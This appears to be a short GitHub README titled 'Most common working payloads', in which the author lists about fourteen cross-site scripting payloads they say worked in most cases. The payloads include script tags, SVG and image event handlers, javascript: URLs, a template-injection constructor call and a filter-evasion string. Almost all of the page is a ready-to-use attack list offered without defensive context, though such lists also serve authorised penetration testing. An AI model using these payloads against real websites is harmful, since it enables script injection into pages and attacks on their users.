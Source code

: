 # Most common working payloads
## This is list of XSS Payloads that worked in most cases for me

```html
"><svg/onload=alert(1)>
"><script>alert(1)</script>
<div onmouseover="alert(document.domain);">
<IMG SRC="javascript:alert('XSS');">
</style><script>a=eval;b=alert;a(b(/XSS/.source));</script>
"><img src=x onerror=alert(1)>
{{constructor.constructor(`alert(1)`)()}}
<noscript><&amp;amp;amp;amp;lt; title=" &lt;/noscript&gt; &lt;img src= x onerror =alert(document.domain)//&quot;&gt;
"><div onmouseover="alert(1);">
<BODY onload=alert(1)>
<BASE HREF="javascript:alert('XSS');//">
"></iframe><script>alert(123)</script>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<svg onLoad=alert(document.domain)>
```

## by Kira Reys
